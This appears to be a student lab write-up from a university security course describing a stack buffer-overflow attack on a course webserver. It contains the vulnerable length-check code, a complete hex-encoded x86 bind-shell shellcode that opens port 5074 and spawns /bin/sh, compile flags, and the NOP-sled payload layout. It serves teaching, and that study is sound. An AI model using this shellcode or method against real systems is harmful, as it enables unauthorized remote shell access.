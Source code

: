 
#                             Simple Buffer-overflow Attack
Group members: Yubo Tian (yt65), Pengyi Pan (pp83), and Chun Sun Baak (cb276)

###Overview:

This assignment aims to compromise a Linux webserver (cps110.cs.duke.edu:8097) running buggy code using buffer-overflow attack. In this document, we will describe the our steps, thought process, the obstacles we faced, and the means to address them that eventually led us to successfully compromise the webserver.

###Step 1: Find the vulnerable point in the webserver code

First, we discovered a vulnerable point in the server’s code regarding bound-checking of a buffer. Specifically, filename[100] is declared as a char[100] in the webserver code, and although there is a bound-checking algorithm that seemingly checks whether the input to filename is smaller than or equal to 100 bytes, its method has a loophole that allows us to inject a string longer than 100, thus effectively overwriting the return address. Specifically, while the actual “length” variable has the type int, in the check function, it is casted into the type unsigned char, whose size is smaller than int. In doing so, the length is illicitly truncated--by gaming this blind spot, we are able to pass the test with an input string that is longer than 100: we just need to make sure that the binary representation of the integer’s right-most eight digits is less than 100, which is 01100100 in binary. Thus, we made sure that the length of our input fits in one of the range (0-100; 256-356; 778-868). 

Here is the part in the server code where vulnerability exists.
'''
char filename[100];
typedef unsigned char byte;
int len = (int) (end - start);
if (check_filename_length(len))
strncpy(filename, start, len);
else
return NULL;
int check_filename_length(byte len) {
if (len < 100)
return 1;
return 0;
}
'''
##Step 2: Create shellcode

After locating the part of the code in which to inject our code in step one, we then started working on a shellcode whose functionalities would help us compromise the host machine. We basically need the shellcode to perform two functions: connect our machine to the victim, and open a shell for us. 

We built our own shellcode based on the idea from the following resource. 
[Source: http://shell-storm.org/shellcode/files/shellcode-357.php]

We created two sets of shellcode doing two different things that was later on combined together. port.c is the source c file that can open a port and redirect the stdin/stdout/stderr to the port. shell.c is the source c file that can spawn a shell. The reason we separated the two functions into two c files is because modularity makes testing and changing assembly code easier.

Compiling the two files and using gdb (disas), we get the assembly code for the two source codes. The cleaned assembly code of the two c files are port.asm (hex opcode with assembly as comments on the side) and shell.asm (assembly file) respectively. Noticeably, when creating port.asm and shell.asm, we followed the provided tutorial to remove NULL and unnecessary steps, and use ‘jump call’ to dynamically retrieve the memory address of string ‘bin/sh/’.

Using nasm to compile the .asm files, we get two hex opcode that are concatenated into our final shellcode, which is in file final_shellcode.c. This shellcode, when injected to the host machine, promises to do the following. First, it opens port number 5074, and makes the host machine listens on the port. By doing so, our server can connect to that machine using that port, allowing us to directly communicate to that machine. Moreover, the shellcode, contains dup2() syscall that effectively puts the control of the remote host’s stdin, stdout, and stderr in our hands. Finally, the shellcode contains execve syscall and in so doing spawns a shell.

##Step 3: Test the shellcode using a basic test

Before anything, we made sure that the shellcode works when we run it on face value (without needing any buffer-overflow attack). After obtaining the op-codes of the shellcode from the resource above, we tested the shellcode using the c code below (which was also available in the above source). The shellcode worked when tested.

To compile: gcc -m32 -z execstack -fno-stack-protector final_shellcode.c -o final_shellcode
'''
char shellcode[] = "\x31\xc0\x50\x40\x89\xc3\x50\x40\x50\x89\xe1\xb0\x66\xcd\x80\x31\xd2\x52\x66\x68\x13\xd2\x43\x66\x53\x89\xe1\x6a\x10\x51\x50\x89\xe1\xb0\x66\xcd\x80\x40\x89\x44\x24\x04\x43\x43\xb0\x66\xcd\x80\x83\xc4\x0c\x52\x52\x43\xb0\x66\xcd\x80\x93\x89\xd1\xb0\x3f\xcd\x80\x41\x80\xf9\x03\x75\xf6\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42";  

int main(int argc, char **argv) { 	
  int (*func)();  	
  func = (int(*)()) shellcode; 	
  func(); 
}
'''

##Step 4: Test the buffer-overflow attack locally

Now that we have the message to be sent, we simulated the buffer-overflow attack by opening the webserver’s code in our local host, and made sure that the shellcode correctly worked when we injected it to our local host through buffer overflow. 

Since our shellcode is longer than 100 bytes (which is the length of the buffer filename) and we suspect that the RET is not far away from the buffer, we cannot put the “NOP slide” in front of our shellcode as in the example from one of the readings. Instead, we put 300 bytes of return address at the front and made sure that they can cover the RET. After that we put 440 NOPs followed by the actual shellcode. The idea here is that we need to make sure the RET is successfully over-written and our “NOP slide” is big enough to shorten the process of finding the address in the server, and at the same time, not exceeding the maximum acceptable length in the server code(1024 bytes).

Step 5: Scan for the correct address

Finally we came to the point where we are ready to go. Before that however, since we did not know the exact address of the buffer filename nor our “NOP slide” in this case, we had to guess until we got it correctly. Using the hints given on Piazza, we successfully narrowed down the possible address range to a moderate size, but testing all the addresses in that range manually was still a pain.

In order to do this tedious job, we created an attack_generator.c program that takes the address guessed as input and output our attack string. Combining with the bash script we wrote find_return_address.sh, we were able to locate a possible return address that we can use 0xBFFFFE88.

Step 6: Launch the attack

The following is purely FUN.

![alt tag](https://github.com/PengyiPan/Simple_Stack_Overflow/blob/master/etc/nc.jpg)

![alt tag](https://github.com/PengyiPan/Simple_Stack_Overflow/blob/master/etc/result.png)




                                                                              This document was last modified on March 30, 2015

